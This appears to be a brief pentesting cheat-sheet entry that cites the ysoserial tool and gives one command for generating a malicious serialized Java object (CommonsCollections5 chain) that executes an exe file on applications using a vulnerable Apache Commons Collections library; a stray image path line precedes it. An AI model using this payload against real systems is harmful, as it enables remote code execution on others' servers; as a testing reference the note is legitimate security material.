 ### Source
https://github.com/frohoff/ysoserial  

### Generate serialized object that executes exe file for apache commons collections vulnerable library
```
java -jar ysoserial-master.jar CommonsCollections5 <file>.exe > <resultFile>.ser
```

